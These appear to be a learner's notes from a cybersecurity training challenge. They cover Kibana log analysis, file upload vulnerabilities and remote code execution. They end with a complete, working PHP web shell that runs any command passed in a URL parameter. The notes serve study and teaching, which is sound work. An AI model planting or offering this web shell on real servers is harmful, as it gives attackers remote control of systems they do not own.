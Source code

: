 ```yaml
---
title: Day 3 - Even if I wanted to go, their vulnerabilities wouldn't allow it.
draft: false
tags:
  - cybersecurity
  - logAnalysis
---
```

## Operation Blue
### Log Analysis & Introducing ELK
Combo of data analytics and processing tools to make analysing logs much more manageable.

### Using ELK
We will use Kibana Discover interface to revie Apache2 logs
A collection is a group of logs

**Kibana Discovery UAI**
![[Pasted image 20241203210804.png]]

1. **Search Bar:** Here, we can place our search queries using KQL
2. **Index Pattern:** An index pattern is a collection of logs. This can be from a specific host or, for example, multiple hosts with a similar purpose (such as multiple web servers). In this case, the index pattern is all logs relating to "wareville-rails"
3. **Fields:** This pane shows us the fields that Elasticsearch has parsed from the logs. For example, timestamp, response type, and IP address.
4. **Timeline:** This visualisation displays the event count over a period of time
5. **Documents (Logs):** These entries are the specific entries in the log file
6. **Time Filter:** We can use this to narrow down a specific time frame (absolute). Alternatively, we can search for logs based on relativity. I.e. "Last 7 days".


### Kibana Query Language (KQL)
`ip.address: "10.10.10.10"`
It can use Lucene


## Operation Red
### File Upload Vulnerabilities
- **RCE**
- **XSS**

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file.

- Uploading a script that the server executes, leading to RCE.  
    
- Uploading a crafted image file that triggers a vulnerability when processed by the server.  
    
- Uploading a web shell and browsing to it directly using a browser.

### Usage of weak credentials
Default credentials


### Remote Code Execution (RCE)
It happens when an attacker finds a way to run their own code on a system.

### What is a Web Shell
It is a script that attackers upload to a vulnerable server, giving them remote control over it.
Typically gives the attacker a web-based interface to run commands.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```








